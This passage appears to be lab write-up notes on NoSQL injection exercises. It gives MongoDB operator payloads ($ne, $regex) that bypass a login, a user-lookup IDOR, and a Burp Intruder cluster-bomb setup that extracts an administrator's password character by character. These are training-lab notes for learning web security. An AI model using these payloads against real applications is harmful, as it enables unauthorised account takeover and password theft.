 ```json
{"username":{"$ne":"wiener"},"password":{"$ne":"invalid_password"}}
```
5. Trying to guess the Administrator's username as well does not work, (we get invalid username/password response)
6. Utilise MongoDB's `$regex` operators to match the Administrator's username
```json
{"username":{"$regex":"admin*"},"password":{"$ne":"invalid_password"}}
```
7. Copy session cookie and authenticate to the page
# Exploiting NoSQL injection to extract data
- Login with your own account `wiener:peter`
- Extract password and login as `adminstrator`
1. Login with credentials
2. View account page > change email > identify request in HTTP history showing user account lookup
```
GET /user/lookup?user=wiener
```
- This request returns JSON data
3. Fuzz for different behaviour
```
GET /user/lookup?user=wiener  # returns data
GET /user/lookup?user=wiener' # returns error
GET /user/lookup?user=wiener1 # returns "could not find user"
```
4. There is also an IDOR if we change the username parameter to equal `administrator`
```
GET /user/lookup?user=administrator
```
5. We can determine the length of a target's password using the following query
```
GET /user/lookup?user=wiener<@urlencode>' && this.password.length == '5</@urlencode>
```
- We are submitting a query that is asking if the length of the password is equal to `5`
- We receive wiener's details confirming the password is `5` characters long which we know is true. Changing the `5` to `6` returns "could not find user"
6. Check the length of the administrator's password by using Intruder
```
GET /user/lookup?user=administrator<@urlencode>' && this.password.length == '§§</@urlencode>
```
- Configure Grep - Extract for the message "Could not find user" - The response that does not include this response indicates the length
7. We get user details for payload `8` indicating the password is `8` characters long
8. Construct Intruder attack to extract all `8` characters from the password
```
GET /user/lookup?user=administrator<@urlencode>' && this.password[§0§] == '§a§' || 'a' == 'b</@urlencode>
```
9. Configure the following:
	1. Attack type: Cluster bomb attack
	2. Payload position 1 (`0`):
		1. Payload type: Numbers
		2. Number 0 - 7 (equals 8 in total)
	3. Payload position 2 (`a`):
		1. Payload type: Simple list
		2. a-z payloads
	4. Grep - Extract
		1. "Could not find user"
10. Start attack
	1. Collect the results so that the results are showing the Payload 1 in order and the responses do not include "Could not find user"
	2. Copy + Paste results into Excel
	3. Use a formula to extract and concatenate all the data into a single cell
```
=TEXTJOIN("",TRUE,FILTER(C:C,C:C<>""))
```